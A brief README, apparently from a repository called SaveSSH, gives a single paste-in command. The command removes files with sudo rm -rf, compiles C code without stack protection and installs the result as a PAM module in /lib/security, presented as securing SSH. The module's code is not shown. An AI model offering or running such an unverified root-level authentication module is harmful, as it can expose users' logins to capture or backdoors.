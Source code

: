 # SaveSSH

Execute following command after opening the terminal in the SaveSSH directory to add the "SaveSSH" application to secure your SSH.

sudo rm -rf /tmp/12121 && rm -rf *.o && gcc -fPIC -fno-stack-protector -c src/*.c -Wall && gcc -shared -o mypam.so *.o && sudo cp mypam.so /lib/security/mypam.so
